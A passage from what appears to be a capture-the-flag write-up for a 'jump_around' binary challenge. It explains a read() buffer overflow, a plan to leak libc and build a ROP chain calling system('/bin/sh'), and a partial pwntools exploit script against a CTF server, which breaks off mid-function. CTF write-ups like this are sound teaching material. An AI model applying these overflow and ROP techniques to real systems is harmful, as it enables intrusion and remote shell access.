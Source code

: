 **Option 3** - `jump()`:

Like `hop()`, it adds 3 shrooms. 

If we have 0x14 (20) shrooms, it prompt us to a vulnerable `read()`.

Our buffer is 32 bytes long and `read()` can read up to 0x60 (96) bytes.

So, our goal is:

* Collect 16 shrooms to leak `printf()`.
* Find the correct libc (or given).
* Calculate libc_base.
* Put the address of `system()` into `$rax` with `pop rax;` gadget.
* Put the address of `"/bin/sh"` into `$rdi` and call `system()` with `pop rdi; jmp rax;` gadget.

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr'
port = 31454 	  
fname = './jump_around' 
LOCAL = False

if LOCAL:
	r = process(fname)
	_libc = '/lib/x86_64-linux-gnu/libc.so.6'
	libc = ELF(_libc)
else:
	r = remote(ip, port)
	_libc = './libc.so.6'
	libc = ELF(_libc)

e = ELF(fname)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def hop():
	sla('>', '1')

def skip():
	sla('>', '2')

def jump(payload):
	sla('>', '3')
	sla('>', payload)
	inter()

def pwn():
	libc_pop_rax = 0x43ae8
	libc_pop_rdi_jmp_rax = 0x98b2a
	shrooms = 0
	junk = b"A"*40

	# Call hop 6 times to make counter 15.
	for i in range(5):
		shrooms += 3
		hop()

	# Make counter 12.
	for i in range(2):
```
